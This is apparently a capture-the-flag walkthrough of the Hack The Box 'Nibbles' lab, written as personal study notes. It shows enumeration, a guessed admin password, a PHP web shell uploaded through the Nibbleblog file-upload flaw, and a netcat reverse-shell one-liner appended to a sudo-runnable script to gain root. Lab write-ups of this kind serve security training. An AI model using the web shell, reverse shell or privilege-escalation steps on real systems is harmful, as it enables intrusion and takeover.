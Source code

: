 ## Target 10.129.221.202
+ Run an nmap script scan on the target. What is the Apache version running on the server? (answer format: X.X.XX)
	+ nmap -sV --script=http-enum
	+ Apache 2.4.18
+ Gain a foothold on the target and submit the user.txt flag


![[Pasted image 20240814163305.png]]
Located in the source file, we can see that there is a directory named nibble blog.
To further enumerate I am going to use GoBuster.
So far we have some decent sub directories
```
/.hta                 (Status: 403) [Size: 303]
/.htaccess            (Status: 403) [Size: 308]
/.htpasswd            (Status: 403) [Size: 308]
/admin                (Status: 301) [Size: 325] [--> http://10.129.253.92/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 327] [--> http://10.129.253.92/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 329] [--> http://10.129.253.92/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 327] [--> http://10.129.253.92/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/themes               (Status: 301) [Size: 326] [--> http://10.129.253.92/nibbleblog/themes/]

```
- Since this has an admin.php page there will be a README file.
```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

Site: http://www.nibbleblog.com
Blog: http://blog.nibbleblog.com
Help & Support: http://forum.nibbleblog.com
Documentation: http://docs.nibbleblog.com

```
This version of nibbleblog is vulnerable to Arbitrary File upload
In the contents/private/ directory we find a users.xml, which confirms the admin login is admin
```
<user username="admin">
<id type="integer">0</id>
<session_fail_count type="integer">0</session_fail_count>
<session_date type="integer">1514544131</session_date>
</user>
```
Now we have to find a password to login with.
Everything around this website is related to nibbles
The admin password is nibbles

This version of Nibbleblog 4.0.3 is vulnerable to Arbitrary File Upload CVE-2015-6967
![[Pasted image 20240814171401.png]]
We can use this my image tab to upload a malicious file.
![[c5dd6323e1e549638c18f62e96d0909d.png]]

- ![[Pasted image 20240814171648.png]]
- It seems our file may have been uploaded
- ![[Pasted image 20240814171705.png]]
- So lets navigate back to content to find out
- ![[Pasted image 20240814171741.png]]
- Which we see our file is now in the my_image directory
```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl http://10.129.253.92/nibbleblog/content/private/plugins/my_image/image.php
</php system($_REQUEST["cmd"]); ?>

```
We know it executes the file. Now we just need to find a file to give it.
We can find a bash one liner in php
![[Pasted image 20240814172846.png]]
Setup a listener
```
nc -lvnp 9443
```

python not found but python3 is 

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

In the users zip file it has a writable script file monitor.sh
```
gmdoggo@htb[/htb]$ sudo python3 -m http.server 8080
[sudo] password for ben: ***********

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.42.190 - - [17/Dec/2020 02:16:51] "GET /LinEnum.sh HTTP/1.1" 200 -

```
While we take a look at that we can make up a http server for transferring a enum script over

Once the file is transferred we can send it over and run it (After allowing it execute privs.)

```
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```

We can pwn this monitor.sh file by adding the same one-liner reverse shell to connect back with root

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.189 8443 >/tmp/f' | tee -a monitor.sh
```

- If we cat the monitor.sh file, we will see the contents appended to the end. It is crucial if we ever encounter a situation where we can leverage a writeable file for privilege escalation. We only append to the end of the file (after making a backup copy of the file) to avoid overwriting it and causing a disruption.
- We can than utilize the privledge over the file to run it